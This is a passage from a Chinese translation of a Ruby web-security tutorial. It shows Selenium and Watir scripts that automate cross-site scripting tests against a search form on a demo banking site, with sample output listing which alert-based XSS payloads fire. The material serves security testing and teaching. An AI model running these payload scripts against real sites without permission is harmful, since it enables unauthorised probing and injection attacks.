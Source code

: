 ```
payloads.each do |payload|
  input = wait.until do
      element = browser.find_element(:name, 'txtSearch')
      element if element.displayed?
  end
  input.send_keys(payload)
  input.submit

  begin
    wait.until do
      txt = browser.switch_to.alert
      if (1..100) === txt.text.to_i
        puts "Payload is working: #{payload}"
        txt.accept
      end
    end
  rescue Selenium::WebDriver::Error::NoAlertOpenError
    puts "False Positive: #{payload}"
    next
  end

end

browser.close 
```

结果

```
> ruby selenium-xss.rb
Payload is working: <video src=x onerror=alert(1);>
Payload is working: <img src=x onerror='alert(2)'>
Payload is working: <script>alert(3)</script>
Payload is working: <svg/OnlOad=prompt(4)>
False Positive: javascript:alert(5)
False Positive: alert(/6/.source) 
```

## Watir Webdriver

[**Watir**](http://watirwebdriver.com/) 是 (Web Application Testing in Ruby) 的缩写。我认为 Watir 比 Selenium 更优雅，但我喜欢知道完成同样任务的多种方式，以防万一。

+   安装 watir gem

    ```
    gem install watir 
    ```

### GET 请求

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
browser.goto "http://www.altoromutual.com/search.aspx?"
browser.text_field(name: 'txtSearch').set("<img src=x onerror='alert(1)'>")
btn = browser.button(value: 'Go')
puts btn.exists?
btn.click

# browser.close 
```